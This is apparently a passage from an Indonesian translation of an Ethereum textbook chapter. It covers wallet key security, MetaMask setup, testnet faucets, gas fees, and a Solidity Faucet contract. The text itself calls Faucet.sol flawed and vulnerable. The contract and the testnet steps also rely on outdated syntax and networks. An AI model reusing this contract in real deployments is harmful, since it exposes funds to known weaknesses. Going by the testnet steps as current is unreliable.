* Semakin penting sebuah akun (misalnya, semakin tinggi nilai dana yang dikendalikan, atau semakin signifikan *smart contract* yang dapat diakses), semakin tinggi pula langkah-langkah keamanan yang harus diambil.
* Keamanan tertinggi diperoleh dari perangkat *air-gapped* (terisolasi dari jaringan), tetapi level ini tidak diperlukan untuk setiap akun.
* **Jangan pernah menyimpan kunci privat Anda dalam bentuk teks biasa**, terutama secara digital. Untungnya, sebagian besar antarmuka pengguna saat ini bahkan tidak akan membiarkan Anda melihat kunci privat mentahnya.
* Kunci privat dapat disimpan dalam bentuk terenkripsi, sebagai file "*keystore*" digital. Karena dienkripsi, kunci tersebut memerlukan kata sandi untuk membukanya. Saat Anda diminta untuk memilih kata sandi, **buatlah yang kuat** (yaitu, panjang dan acak), cadangkan, dan jangan bagikan. Jika Anda tidak memiliki pengelola kata sandi, tuliskan dan simpan di tempat yang aman dan rahasia. Untuk mengakses akun Anda, Anda memerlukan file *keystore* dan kata sandinya.
* **Jangan menyimpan kata sandi apa pun** dalam dokumen digital, foto digital, tangkapan layar, drive daring, PDF terenkripsi, dll. Sekali lagi, jangan mengimprovisasi keamanan. Gunakan pengelola kata sandi atau pena dan kertas.
* Saat Anda diminta untuk mencadangkan kunci sebagai **urutan kata mnemonic**, gunakan pena dan kertas untuk membuat cadangan fisik. Jangan menunda tugas itu "untuk nanti"; Anda akan lupa. Cadangan ini dapat digunakan untuk membangun kembali kunci privat Anda jika Anda kehilangan semua data yang tersimpan di sistem Anda, atau jika Anda lupa atau kehilangan kata sandi. Namun, mereka juga dapat digunakan oleh penyerang untuk mendapatkan kunci privat Anda, jadi **jangan pernah menyimpannya secara digital**, dan simpan salinan fisiknya dengan aman di laci atau brankas yang terkunci.
* Sebelum mentransfer jumlah besar (terutama ke alamat baru), **lakukan transaksi uji coba kecil terlebih dahulu** (misalnya, senilai kurang dari $1) dan tunggu konfirmasi penerimaan.
* Saat Anda membuat akun baru, mulailah dengan hanya mengirim transaksi uji coba kecil ke alamat baru tersebut. Setelah Anda menerima transaksi uji coba, coba kirim kembali dari akun itu. Ada banyak alasan pembuatan akun bisa salah, dan jika salah, lebih baik mengetahuinya dengan kerugian kecil. Jika pengujian berhasil, semuanya baik-baik saja.
* Penjelajah blok (*block explorer*) publik adalah cara mudah untuk melihat secara independen apakah sebuah transaksi telah diterima oleh jaringan. Namun, kemudahan ini berdampak negatif pada privasi Anda, karena Anda mengungkapkan alamat Anda ke penjelajah blok, yang dapat melacak Anda.
* **Jangan mengirim uang ke alamat mana pun yang ditampilkan dalam buku ini.** Kunci privatnya tercantum di dalam buku dan seseorang akan segera mengambil uang itu.

Sekarang setelah kita membahas beberapa praktik terbaik dasar untuk manajemen kunci dan keamanan, mari kita mulai menggunakan MetaMask!

### **Memulai dengan MetaMask**

Buka browser Google Chrome dan navigasikan ke [https://chrome.google.com/webstore/category/extensions](https://chrome.google.com/webstore/category/extensions).

Cari "MetaMask" dan klik pada logo rubah. Anda akan melihat sesuatu seperti hasil yang ditunjukkan pada Gambar 2-1.

<p align="center">
  
</p>

Penting untuk memverifikasi bahwa Anda mengunduh ekstensi MetaMask yang asli, karena terkadang orang dapat menyelundupkan ekstensi berbahaya melewati filter Google. Yang asli:

* Menunjukkan ID `nkbihfbeogaeaoehlefnkodbefgpgknn` di bilah alamat (*address bar*)
* Ditawarkan oleh [https://metamask.io](https://metamask.io)
* Memiliki lebih dari 1.400 ulasan
* Memiliki lebih dari 1.000.000 pengguna

Setelah Anda memastikan sedang melihat ekstensi yang benar, klik "**Tambahkan ke Chrome**" untuk menginstalnya.

### **Membuat Dompet**

Setelah MetaMask terinstal, Anda akan melihat ikon baru (kepala rubah) di bilah alat (*toolbar*) browser Anda. Klik ikon tersebut untuk memulai. Anda akan diminta untuk menyetujui syarat dan ketentuan, lalu membuat dompet Ethereum baru Anda dengan memasukkan kata sandi (lihat Gambar 2-2).

<p align="center">
  
</p>

> Kata sandi ini mengontrol akses ke MetaMask, sehingga tidak dapat digunakan oleh siapa pun yang memiliki akses ke browser Anda.

Setelah Anda mengatur kata sandi, MetaMask akan membuat dompet untuk Anda dan menunjukkan cadangan mnemonic yang terdiri dari 12 kata dalam bahasa Inggris (lihat Gambar 2-3). Kata-kata ini dapat digunakan di dompet kompatibel mana pun untuk memulihkan akses ke dana Anda jika terjadi sesuatu pada MetaMask atau komputer Anda. **Anda tidak memerlukan kata sandi untuk pemulihan ini; 12 kata tersebut sudah cukup.**

> **Peringatan Keamanan** ✍️
>
> Cadangkan mnemonic Anda (12 kata) **di atas kertas, sebanyak dua kali**. Simpan kedua cadangan kertas di dua lokasi aman yang terpisah, seperti brankas tahan api, laci terkunci, atau kotak deposit. Perlakukan cadangan kertas ini seperti uang tunai dengan nilai yang setara dengan apa yang Anda simpan di dompet Ethereum Anda. **Siapa pun yang memiliki akses ke kata-kata ini dapat memperoleh akses dan mencuri uang Anda.**

<p align="center">
  
</p>

Setelah Anda mengkonfirmasi bahwa Anda telah menyimpan mnemonic dengan aman, Anda akan dapat
Untuk melihat detail akun Ethereum Anda, seperti yang ditunjukkan pada Gambar 2-4.

<p align="center">
  
</p>

Halaman akun Anda menampilkan nama akun Anda ("Akun 1" secara default), sebuah alamat Ethereum (`0x9E713…` dalam contoh), dan ikon berwarna-warni untuk membantu Anda membedakan akun ini secara visual dari akun lain. Di bagian atas halaman akun, Anda dapat melihat jaringan Ethereum mana yang sedang Anda gunakan ("Jaringan Utama" dalam contoh).

Selamat! Anda telah menyiapkan dompet Ethereum pertama Anda.

### **Beralih Jaringan**

Seperti yang dapat Anda lihat di halaman akun MetaMask, Anda dapat memilih di antara beberapa jaringan Ethereum. Secara default, MetaMask akan mencoba terhubung ke jaringan utama. Pilihan lainnya adalah *testnet* publik, *node* Ethereum apa pun pilihan Anda, atau *node* yang menjalankan *blockchain* privat di komputer Anda sendiri (*localhost*):

**Main Ethereum Network (Jaringan Utama Ethereum)**
*Blockchain* publik utama Ethereum. ETH asli, nilai nyata, dan konsekuensi nyata.

**Ropsten Test Network (Jaringan Uji Ropsten)**
*Blockchain* dan jaringan uji publik Ethereum. ETH di jaringan ini tidak memiliki nilai.

**Kovan Test Network (Jaringan Uji Kovan)**
*Blockchain* dan jaringan uji publik Ethereum yang menggunakan protokol konsensus Aura dengan *proof of authority* (penandatanganan terfederasi). ETH di jaringan ini tidak memiliki nilai. Jaringan uji Kovan hanya didukung oleh Parity. Klien Ethereum lainnya menggunakan protokol konsensus Clique, yang diusulkan kemudian, untuk verifikasi berbasis *proof of authority*.

**Rinkeby Test Network (Jaringan Uji Rinkeby)**
*Blockchain* dan jaringan uji publik Ethereum, yang menggunakan protokol konsensus Clique dengan *proof of authority* (penandatanganan terfederasi). ETH di jaringan ini tidak memiliki nilai.

**Localhost 8545**
Terhubung ke *node* yang berjalan di komputer yang sama dengan browser. *Node* tersebut dapat menjadi bagian dari *blockchain* publik mana pun (utama atau *testnet*), atau *testnet* privat.

**Custom RPC (RPC Kustom)**
Memungkinkan Anda untuk menghubungkan MetaMask ke *node* mana pun dengan antarmuka *Remote Procedure Call* (RPC) yang kompatibel dengan Geth. *Node* tersebut bisa menjadi bagian dari *blockchain* publik atau privat mana pun.

> Dompet MetaMask Anda menggunakan kunci privat dan alamat Ethereum yang sama di semua jaringan yang terhubung dengannya. Namun, saldo alamat Ethereum Anda di setiap jaringan Ethereum akan berbeda. Kunci Anda mungkin mengontrol ether dan kontrak di Ropsten, misalnya, tetapi tidak di jaringan utama.

### **Mendapatkan Ether Uji Coba**

Tugas pertama Anda adalah mendanai dompet Anda. Anda tidak akan melakukannya di jaringan utama karena ether sungguhan membutuhkan uang dan menanganinya memerlukan sedikit lebih banyak pengalaman. Untuk saat ini, Anda akan mengisi dompet Anda dengan ether dari *testnet*.

Alihkan MetaMask ke **Jaringan Uji Ropsten**. Klik **Beli**, lalu klik **Ropsten Test Faucet**. MetaMask akan membuka halaman web baru, seperti yang ditunjukkan pada Gambar 2-5.

<p align="center">
  
</p>

Anda mungkin memperhatikan bahwa halaman web tersebut sudah berisi alamat Ethereum dari dompet MetaMask Anda. MetaMask mengintegrasikan halaman web yang mendukung Ethereum dengan dompet MetaMask Anda dan dapat "melihat" alamat Ethereum di halaman web, memungkinkan Anda, misalnya, untuk mengirim pembayaran ke toko daring yang menampilkan alamat Ethereum. MetaMask juga dapat mengisi halaman web dengan alamat dompet Anda sendiri sebagai alamat penerima jika halaman web tersebut memintanya. Di halaman ini, aplikasi *faucet* meminta alamat dompet dari MetaMask untuk mengirimkan ether uji coba.

Klik tombol hijau "**request 1 ether from faucet**". Anda akan melihat ID transaksi muncul di bagian bawah halaman. Aplikasi *faucet* telah membuat sebuah transaksi—pembayaran untuk Anda. ID transaksi terlihat seperti ini:

`0x7c7ad5aaea6474adccf6f5c5d6abed11b70a350fbc6f9590109e099568090c57`

Dalam beberapa detik, transaksi baru akan ditambang oleh para penambang Ropsten dan dompet MetaMask Anda akan menunjukkan saldo sebesar 1 ETH. Klik pada ID transaksi dan browser Anda akan membawa Anda ke penjelajah blok (*block explorer*), yaitu sebuah situs web yang memungkinkan Anda untuk memvisualisasikan dan menjelajahi blok, alamat, dan transaksi. MetaMask menggunakan penjelajah blok **Etherscan**, salah satu penjelajah blok Ethereum yang lebih populer. Transaksi yang berisi pembayaran dari Ropsten Test Faucet ditunjukkan pada Gambar 2-6.

<p align="center">
  
</p>

[Gambar 2-6: Tampilan transaksi pembayaran dari faucet di Etherscan]

Transaksi tersebut telah dicatat di *blockchain* Ropsten dan dapat dilihat kapan saja oleh siapa saja, hanya dengan mencari ID transaksi, atau mengunjungi tautan tersebut. Coba kunjungi tautan itu, atau masukkan *hash* transaksi ke situs web `ropsten.etherscan.io`, untuk melihatnya sendiri.

### **Mengirim Ether dari MetaMask**

Setelah Anda menerima ether uji coba pertama Anda dari Ropsten Test Faucet, Anda dapat bereksperimen dengan mengirim ether dengan mencoba mengirim sebagian kembali ke *faucet*. Seperti yang Anda lihat di halaman Ropsten Test Faucet, ada pilihan untuk "menyumbang" 1 ETH ke *faucet*. Opsi ini tersedia agar setelah Anda selesai menguji, Anda dapat mengembalikan sisa ether uji coba Anda, sehingga orang lain dapat menggunakannya selanjutnya. Meskipun ether uji coba tidak memiliki nilai, beberapa orang menimbunnya, sehingga menyulitkan orang lain untuk menggunakan jaringan uji. Menimbun ether uji coba sangat tidak disukai!

Untungnya, kita bukanlah penimbun ether uji coba. Klik tombol oranye "**1 ether**" untuk memberitahu MetaMask agar membuat transaksi pembayaran 1 ether ke *faucet*. MetaMask akan menyiapkan transaksi dan memunculkan jendela konfirmasi, seperti yang ditunjukkan pada Gambar 2-7.

<p align="center">
  
</p>

[Gambar 2-7: Jendela konfirmasi transaksi pengiriman di MetaMask]

Ups! Anda mungkin menyadari bahwa Anda tidak dapat menyelesaikan transaksi—MetaMask mengatakan saldo Anda tidak mencukupi. Sekilas ini mungkin tampak membingungkan: Anda memiliki 1 ETH, Anda ingin mengirim 1 ETH, jadi mengapa MetaMask mengatakan dana Anda tidak cukup?

Jawabannya adalah karena **biaya gas**. Setiap transaksi Ethereum memerlukan pembayaran biaya, yang dikumpulkan oleh para penambang untuk memvalidasi transaksi. Biaya di Ethereum dibebankan dalam mata uang virtual yang disebut **gas**. Anda membayar gas dengan ether, sebagai bagian dari transaksi.

> Biaya juga diperlukan di jaringan uji. Tanpa biaya, jaringan uji akan berperilaku berbeda dari jaringan utama, membuatnya menjadi platform pengujian yang tidak memadai. Biaya juga melindungi jaringan uji dari serangan DoS dan kontrak yang dibuat dengan buruk (misalnya, *infinite loops*), sama seperti mereka melindungi jaringan utama.

Saat Anda mengirim transaksi, MetaMask menghitung harga gas rata-rata dari transaksi yang berhasil baru-baru ini sebesar 3 **gwei**, yang merupakan singkatan dari gigawei. Wei adalah subdivisi terkecil dari mata uang ether, seperti yang kita bahas di "Unit Mata Uang Ether" di halaman 13. Batas gas ditetapkan pada biaya pengiriman transaksi dasar, yaitu 21.000 unit gas. Oleh karena itu, jumlah maksimum ETH yang akan Anda keluarkan adalah 3 * 21.000 gwei = 63.000 gwei = 0,000063 ETH. (Perlu diketahui bahwa harga gas rata-rata dapat berfluktuasi, karena sebagian besar ditentukan oleh penambang. Kita akan melihat di bab selanjutnya bagaimana Anda dapat menaikkan/menurunkan batas gas Anda untuk memastikan transaksi Anda diprioritaskan jika diperlukan.)

Semua ini berarti: melakukan transaksi 1 ETH membutuhkan biaya 1,000063 ETH. MetaMask secara membingungkan membulatkannya menjadi 1 ETH saat menampilkan total, tetapi jumlah sebenarnya yang Anda butuhkan adalah 1,000063 ETH dan Anda hanya memiliki 1 ETH. Klik **Tolak** untuk membatalkan transaksi ini.

Mari kita dapatkan lebih banyak ether uji coba! Klik tombol hijau "request 1 ether from the faucet" lagi dan tunggu beberapa detik. Jangan khawatir, *faucet* seharusnya memiliki banyak ether dan akan memberi Anda lebih banyak jika Anda meminta.

Setelah Anda memiliki saldo 2 ETH, Anda bisa mencoba lagi. Kali ini, saat Anda mengklik tombol donasi oranye "1 ether", Anda memiliki saldo yang cukup untuk menyelesaikan transaksi. Klik **Kirim** saat MetaMask memunculkan jendela pembayaran. Setelah semua ini, Anda akan melihat saldo sebesar 0,999937 ETH karena Anda mengirim 1 ETH ke *faucet* dengan biaya gas sebesar 0,000063 ETH.

### **Menjelajahi Riwayat Transaksi Sebuah Alamat**

Sekarang Anda telah menjadi ahli dalam menggunakan MetaMask untuk mengirim dan menerima ether uji coba. Dompet Anda telah menerima setidaknya dua pembayaran dan mengirim setidaknya satu. Anda dapat melihat semua transaksi ini menggunakan penjelajah blok `ropsten.etherscan.io`. Anda bisa menyalin alamat dompet Anda dan menempelkannya ke kotak pencarian penjelajah blok, atau meminta MetaMask membukakan halaman untuk Anda. Di sebelah ikon akun Anda di MetaMask, Anda akan melihat tombol yang menunjukkan tiga titik. Klik tombol itu untuk menampilkan menu opsi terkait akun (lihat Gambar 2-8).

<p align="center">
  
</p>

[Gambar 2-8: Menu opsi akun di MetaMask]

Pilih "**Lihat akun di Etherscan**" untuk membuka halaman web di penjelajah blok yang menunjukkan riwayat transaksi akun Anda, seperti yang ditunjukkan pada Gambar 2-9.

<p align="center">
  
</p>

[Gambar 2-9: Riwayat transaksi sebuah alamat di Etherscan]

Di sini Anda dapat melihat seluruh riwayat transaksi alamat Ethereum Anda. Ini menunjukkan semua transaksi yang tercatat di *blockchain* Ropsten di mana alamat Anda adalah pengirim atau penerima. Klik beberapa transaksi ini untuk melihat detail lebih lanjut.

Anda dapat menjelajahi riwayat transaksi dari alamat mana pun. Coba lihat riwayat transaksi alamat Ropsten Test Faucet (petunjuk: itu adalah alamat "pengirim" yang tercantum dalam pembayaran tertua ke alamat Anda). Anda dapat melihat semua ether uji coba yang dikirim dari *faucet* kepada Anda dan ke alamat lain. Setiap transaksi yang Anda lihat dapat membawa Anda ke lebih banyak alamat dan lebih banyak transaksi. Tak lama kemudian Anda akan tersesat dalam labirin data yang saling terhubung. *Blockchain* publik berisi kekayaan informasi yang sangat besar, yang semuanya dapat dieksplorasi secara terprogram, seperti yang akan kita lihat dalam contoh-contoh di masa depan.

### **Memperkenalkan Komputer Dunia**

Anda sekarang telah membuat dompet serta mengirim dan menerima ether. Sejauh ini, kita telah memperlakukan Ethereum sebagai mata uang kripto. Tetapi Ethereum jauh, jauh lebih dari itu. Faktanya, fungsi mata uang kripto hanyalah pendukung fungsi Ethereum sebagai **komputer dunia yang terdesentralisasi**. Ether dimaksudkan untuk digunakan membayar biaya menjalankan *smart contract*, yang merupakan program komputer yang berjalan di atas komputer emulasi yang disebut **Ethereum Virtual Machine (EVM)**.

EVM adalah sebuah *global singleton*, yang berarti ia beroperasi seolah-olah ia adalah komputer instans tunggal global, yang berjalan di mana-mana. Setiap *node* di jaringan Ethereum menjalankan salinan lokal dari EVM untuk memvalidasi eksekusi kontrak, sementara *blockchain* Ethereum mencatat perubahan keadaan dari komputer dunia ini saat memproses transaksi dan *smart contract*. Kita akan membahas ini secara lebih rinci di Bab 13.

### **Externally Owned Accounts (EOA) dan Kontrak**

Jenis akun yang Anda buat di dompet MetaMask disebut **externally owned account (EOA)** atau akun yang dimiliki secara eksternal. EOA adalah akun yang memiliki kunci privat; memiliki kunci privat berarti memiliki kendali atas akses ke dana atau kontrak. Sekarang, Anda mungkin menebak ada jenis akun lain. Jenis akun lainnya adalah **akun kontrak**. Akun kontrak memiliki kode *smart contract*, yang tidak dimiliki oleh EOA biasa. Selain itu, akun kontrak **tidak memiliki kunci privat**. Sebaliknya, ia dimiliki (dan dikendalikan) oleh logika kode *smart contract*-nya: program perangkat lunak yang dicatat di *blockchain* Ethereum saat pembuatan akun kontrak dan dieksekusi oleh EVM.

Kontrak memiliki alamat, sama seperti EOA. Kontrak juga dapat mengirim dan menerima ether, sama seperti EOA. Namun, ketika tujuan transaksi adalah alamat kontrak, hal itu menyebabkan kontrak tersebut berjalan di EVM, menggunakan transaksi, dan data transaksi, sebagai inputnya. Selain ether, transaksi dapat berisi data yang menunjukkan fungsi spesifik mana dalam kontrak yang harus dijalankan dan parameter apa yang harus diteruskan ke fungsi tersebut. Dengan cara ini, transaksi dapat memanggil fungsi di dalam kontrak.

Perhatikan bahwa karena akun kontrak tidak memiliki kunci privat, ia tidak dapat **memulai** sebuah transaksi. Hanya EOA yang dapat memulai transaksi, tetapi kontrak dapat bereaksi terhadap transaksi dengan memanggil kontrak lain, membangun alur eksekusi yang kompleks. Salah satu penggunaan umum dari ini adalah EOA yang mengirimkan transaksi permintaan ke dompet *smart contract* multisignature untuk mengirim sejumlah ETH ke alamat lain. Pola pemrograman DApp yang umum adalah memiliki Kontrak A memanggil Kontrak B untuk menjaga keadaan bersama di antara para pengguna Kontrak A.

Dalam beberapa bagian berikutnya, kita akan menulis kontrak pertama kita. Anda kemudian akan belajar cara membuat, mendanai, dan menggunakan kontrak tersebut dengan dompet MetaMask dan ether uji coba di jaringan uji Ropsten.
### **Kontrak Sederhana: Sebuah Faucet Ether Uji Coba**

Ethereum memiliki banyak bahasa tingkat tinggi yang berbeda, yang semuanya dapat digunakan untuk menulis kontrak dan menghasilkan *bytecode* EVM. Anda dapat membaca tentang banyak bahasa yang paling terkemuka dan menarik di "Pengantar Bahasa Tingkat Tinggi Ethereum" di halaman 129. Salah satu bahasa tingkat tinggi sejauh ini merupakan pilihan dominan untuk pemrograman *smart contract*: **Solidity**. Solidity diciptakan oleh Dr. Gavin Wood, salah satu penulis buku ini, dan telah menjadi bahasa yang paling banyak digunakan di Ethereum (dan di luarnya). Kita akan menggunakan Solidity untuk menulis kontrak pertama kita.

Untuk contoh pertama kita (Contoh 2-1), kita akan menulis kontrak yang mengontrol sebuah *faucet*. Anda sudah menggunakan *faucet* untuk mendapatkan ether uji coba di jaringan uji Ropsten. *Faucet* adalah hal yang relatif sederhana: ia memberikan ether ke alamat mana pun yang meminta, dan dapat diisi ulang secara berkala. Anda dapat mengimplementasikan *faucet* sebagai dompet yang dikendalikan oleh manusia atau server web.

**Contoh 2-1. Faucet.sol: Sebuah kontrak Solidity yang mengimplementasikan sebuah faucet**

```solidity
1 // Kontrak pertama kita adalah sebuah faucet!
2 contract Faucet {
3
4   // Berikan ether kepada siapa pun yang meminta
5   function withdraw(uint withdraw_amount) public {
6
7       // Batasi jumlah penarikan
8       require(withdraw_amount <= 100000000000000000);
9
10      // Kirim jumlah tersebut ke alamat yang memintanya
11      msg.sender.transfer(withdraw_amount);
12  }
13
14  // Terima jumlah masuk berapa pun
15  function () public payable {}
16
17 }
```

> Anda akan menemukan semua contoh kode untuk buku ini di subdirektori `code` dari repositori GitHub buku ini. Secara spesifik, kontrak `Faucet.sol` kita berada di:
> `code/Solidity/Faucet.sol`

Ini adalah kontrak yang sangat sederhana, sesederhana yang bisa kita buat. Ini juga merupakan kontrak yang **cacat**, menunjukkan sejumlah praktik buruk dan kerentanan keamanan. Kita akan belajar dengan memeriksa semua kekurangannya di bagian selanjutnya. Tapi untuk saat ini, mari kita lihat apa yang dilakukan kontrak ini dan cara kerjanya, baris per baris. Anda akan segera menyadari bahwa banyak elemen soliditas mirip dengan bahasa pemrograman yang ada, seperti JavaScript, Java, atau C ++.

Baris pertama adalah sebuah komentar:

```solidity
// Kontrak pertama kita adalah sebuah faucet!
```

Komentar ditujukan untuk dibaca oleh manusia dan tidak disertakan dalam *bytecode* EVM yang dapat dieksekusi. Biasanya kita meletakkannya di baris sebelum kode yang ingin kita jelaskan, atau terkadang di baris yang sama. Komentar dimulai dengan dua garis miring: `//`. Segala sesuatu dari garis miring pertama hingga akhir baris tersebut diperlakukan sama seperti baris kosong dan diabaikan.

Baris berikutnya adalah tempat di mana kontrak kita sebenarnya dimulai:

```solidity
contract Faucet {
```

Baris ini mendeklarasikan sebuah objek `contract`, mirip dengan deklarasi `class` di bahasa berorientasi objek lainnya. Definisi kontrak mencakup semua baris di antara kurung kurawal (`{}`), yang mendefinisikan sebuah lingkup (*scope*), sama seperti bagaimana kurung kurawal digunakan di banyak bahasa pemrograman lain.

Selanjutnya, kita mendeklarasikan fungsi pertama dari kontrak `Faucet`:

```solidity
function withdraw(uint withdraw_amount) public {
```

Fungsi ini bernama `withdraw`, dan menerima satu argumen integer tak bertanda (`uint`) bernama `withdraw_amount`. Fungsi ini dideklarasikan sebagai fungsi `public`, yang berarti dapat dipanggil oleh kontrak lain. Definisi fungsi mengikuti, di antara kurung kurawal. Bagian pertama dari fungsi `withdraw` menetapkan batas penarikan:

```solidity
require(withdraw_amount <= 100000000000000000);
```

Fungsi ini menggunakan fungsi bawaan Solidity, `require`, untuk menguji sebuah prasyarat, yaitu `withdraw_amount` harus kurang dari atau sama dengan 100.000.000.000.000.000 wei, yang merupakan unit dasar ether (lihat Tabel 2-1) dan setara dengan 0,1 ether. Jika fungsi `withdraw` dipanggil dengan `withdraw_amount` yang lebih besar dari jumlah itu, fungsi `require` di sini akan menyebabkan eksekusi kontrak berhenti dan gagal dengan sebuah pengecualian (*exception*). Perhatikan bahwa pernyataan di Solidity harus diakhiri dengan titik koma.

Bagian dari kontrak ini adalah logika utama dari *faucet* kita. Bagian ini mengontrol aliran dana keluar dari kontrak dengan menempatkan batasan pada penarikan. Ini adalah kontrol yang sangat sederhana tetapi dapat memberi Anda gambaran sekilas tentang kekuatan *blockchain* yang dapat diprogram: perangkat lunak terdesentralisasi yang mengendalikan uang.

Berikutnya adalah penarikan yang sebenarnya:

```solidity
msg.sender.transfer(withdraw_amount);
```

Beberapa hal menarik terjadi di sini. Objek `msg` adalah salah satu input yang dapat diakses oleh semua kontrak. Objek ini mewakili transaksi yang memicu eksekusi kontrak ini. Atribut `sender` adalah alamat pengirim dari transaksi tersebut. Fungsi `transfer` adalah fungsi bawaan yang mentransfer ether dari kontrak saat ini ke alamat pengirim. Jika dibaca dari belakang, ini berarti **transfer ke pengirim `msg` yang memicu eksekusi kontrak ini**. Fungsi `transfer` menerima jumlah sebagai satu-satunya argumen. Kita meneruskan nilai `withdraw_amount` yang merupakan parameter untuk fungsi `withdraw` yang dideklarasikan beberapa baris sebelumnya.

Baris berikutnya adalah kurung kurawal penutup, yang menandakan akhir dari definisi fungsi `withdraw` kita.

Selanjutnya, kita mendeklarasikan satu fungsi lagi:

```solidity
function () public payable {}
```

Fungsi ini adalah apa yang disebut fungsi *fallback* atau **default**, yang dipanggil jika transaksi yang memicu kontrak tidak menyebutkan nama fungsi apa pun yang dideklarasikan dalam kontrak, atau tidak ada fungsi sama sekali, atau tidak berisi data. Kontrak dapat memiliki satu fungsi default seperti ini (tanpa nama) dan biasanya inilah yang menerima ether. Itulah mengapa fungsi ini didefinisikan sebagai fungsi `public` dan `payable`, yang berarti dapat menerima ether ke dalam kontrak. Fungsi ini tidak melakukan apa-apa, selain menerima ether, seperti yang ditunjukkan oleh definisi kosong dalam kurung kurawal (`{}`). Jika kita membuat transaksi yang mengirim ether ke alamat kontrak, seolah-olah itu adalah dompet, fungsi ini akan menanganinya.

Tepat di bawah fungsi default kita adalah kurung kurawal penutup terakhir, yang menutup definisi dari kontrak `Faucet`. Selesai\!

### **Mengkompilasi Kontrak Faucet**

Sekarang kita memiliki kontrak contoh pertama kita, kita perlu menggunakan *compiler* Solidity untuk mengubah kode Solidity menjadi *bytecode* EVM sehingga dapat dieksekusi oleh EVM di *blockchain* itu sendiri.

